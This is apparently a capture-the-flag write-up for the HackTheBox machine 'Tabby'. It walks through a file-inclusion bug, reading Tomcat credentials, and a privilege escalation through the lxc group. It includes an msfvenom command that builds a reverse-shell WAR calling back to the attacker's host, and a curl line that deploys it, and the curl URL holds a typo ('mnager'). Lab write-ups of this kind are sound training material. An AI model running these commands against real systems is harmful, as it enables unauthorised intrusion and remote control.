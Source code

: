 # Tabby

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### LFI

We would have to add `megahosting.htb` to our `/etc/hosts` file to view port 80. Afterwards, we would just see something like this on the page:

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

When we press the Compare button, we would be brought to `/news.php?file=statement`. I tested for LFI, and it worked!

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

### Tomcat

Tomcat was running on port 8080, and we would need to somehow get the manager password to upload a .war reverse shell. Since we have LFI, we can read it at `/usr/share/tomcat9/etc/tomcat-users.xml`.

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

The password is `$3cureP4s5w0rd123!`. Then, we can login to the admin dashboard, create a .war reverse shell using `msfvenom`, upload it, and execute it via `curl`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.9 LPORT=4444 -f war -o rev.war
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/mnager/text/deploy?path=/shell --upload-file rev.war
```

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup Zip --> Ash

When looking aroun the file system, I found this backup file here:

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

This waws password protected, so let's transfer this back to our machine via `nc` and then use `john` on it:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

The backup file had nothing on it...which was weird. Since we have a password, might as well try `su`, and it worked to getting to `ash`:

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### LXC Group

When we check the `id` of `ash`, we see that they are part of the `lxc` group.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

This exploitable because we can create a container and mount it with root access to the main machine.

{% embed url="https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/" %}

Following the resource above, we can spawn a root shell:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Rooted!
